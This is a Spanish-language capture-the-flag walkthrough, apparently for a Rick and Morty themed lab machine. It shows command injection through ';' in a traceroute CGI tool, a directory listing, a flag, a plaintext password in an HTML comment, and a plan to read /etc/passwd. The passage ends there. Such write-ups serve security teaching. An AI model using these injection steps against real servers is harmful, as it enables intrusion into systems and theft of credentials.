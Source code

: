 ### Accedí al servidor web, por el puerto 80, tras no encontrar nada, miré robots.txt donde encontré esto:
```
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

### root_shell.cgi está bajo construcción y no contiene nada interesante, pero tracertool.cgi es una herramienta que únicamente hace traceroute a la IP que le mandes, lo importante, es que está mal programado y se pueden escapar los comandos usando ";", esto fué lo que encontré:
```
;ls -la /var/www/html
drwxr-xr-x. 3 root root     76 Aug 22  2017 .
drwxr-xr-x. 4 root root     33 Aug 22  2017 ..
-rw-r--r--. 1 root root    326 Aug 22  2017 index.html
-rw-r--r--. 1 root root 539672 Aug 22  2017 morty.png
drwxr-xr-x. 2 root root     44 Aug 23  2017 passwords
-rw-r--r--. 1 root root    126 Aug 22  2017 robots.txt
```
### Al mirar en el endpoint password encontramos una flag y password.html

```
[TXT]	FLAG.txt 	2017-08-22 02:31 	44 	 
[TXT]	passwords.html 	2017-08-23 19:51 	352
```
#### flag.txt contiene:
```
FLAG{Yeah d- just don't do it.} - 10 Points
```
#### passwords.html contiene:
```
<!DOCTYPE html>
<html>
<head>
<title>Morty's Website</title>
<body>Wow Morty real clever. Storing passwords in a file called passwords.html? You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. That's the last thing I need.</body>
<!--Password: winter-->
</head>
</html>
```

### Tenermos una contraseña "winter", seguidamente busqué si podía ver el contenido de /etc/passwd para ver los usuarios del sistema y me encontré con que habían modificado el binario de "cat" para mostrar un gato en ASCII, por lo que usé tail -n 100 para mostrar todo el contenido
